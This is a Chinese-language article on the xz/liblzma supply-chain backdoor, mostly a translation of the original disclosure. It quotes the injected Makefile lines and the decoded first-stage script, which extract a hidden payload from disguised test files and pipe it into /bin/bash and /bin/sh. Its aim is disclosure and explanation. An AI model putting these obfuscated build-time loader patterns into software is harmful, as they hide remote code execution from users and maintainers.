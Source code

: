 # xz 是什么

xz 是一种通用的数据压缩格式，几乎存在于每个 Linux 发行版中，包括社区项目和商业产品发行版。本质上，它有助于将大型文件格式压缩（然后解压缩）为更小、更易于管理的尺寸，以便通过文件传输进行共享。  
XZ 是类 Unix 操作系统上的一种无损数据压缩格式，通常与 gzibzip2 等其他常见数据压缩格式进行比较。XZ Utils 是一个命令行工具，包含 XZ 文件和 liblzma 的压缩和解压缩功能，liblzma 是一种用于数据压缩的类似 zlib 的 API，并且还支持旧版 .lzma 格式。  
3 月 29 日，有开发人员在安全邮件列表上发帖称，他在调查 SSH 性能问题时发现了涉及 XZ 包中的供应链攻击，进一步溯源发现 SSH 使用的上游 liblzma 库被植入了后门代码，恶意代码可能允许攻击者通过后门版本的 SSH 非授权获取系统的访问权限。恶意代码修改了 liblzma 代码中的函数，该代码是 XZ Utils 软件包的一部分，链接到 XZ 库的任何软件都可以使用此修改后的代码，并允许拦截和修改与该库一起使用的数据。

# 微软软件工程师 Andres Freund 在 opwnwall 报告了 xz 存在后门

在过去几周观察到 Debian sid 安装上的 liblzma（xz 软件包的一部分）周围的一些奇怪症状（使用 ssh 登录占用大量 CPU、valgrind 错误）后，我找到了答案：  
上游 xz 存储库和 xz tarball 已被设置后门。  
起初我以为这是 debian 软件包的损坏，但事实证明这是上游的。

## 受损的 tarball 包

后门的一部分*仅位于分布式 tarball 中*。为了更容易参考，这里有一个 debian 导入 tarball 的链接，但它也存在于 5.6.0 和 5.6.1 的 tarball 中：  
[https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref\_type=heads#L63](https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63)  
该行*不在* build-to-host 的上游源中，也不是 git 中的 xz 使用的 build-to-host。然而，它存在于上游发布的 tarball 中，除了“源代码”链接，我认为 github 直接从存储库内容生成：  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.0](https://github.com/tukaani-project/xz/releases/tag/v5.6.0)  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.1](https://github.com/tukaani-project/xz/releases/tag/v5.6.1)  
这会注入一个混淆的脚本，在配置结束时执行。该脚本相当混乱，数据来自存储库中的“test”.xz 文件。  
执行此脚本，如果某些前提条件匹配，则修改 $builddir/src/liblzma/Makefile 以包含

```plain
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```

最终结果是...；sed rpath ../../../tests/files/bad-3-corrupt*lzma2.xz | tr“-*”“\_-”| xz -d | /bin/bash >/dev/null 2>&1; ...  
省略产生的“| bash”

```plain
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
```
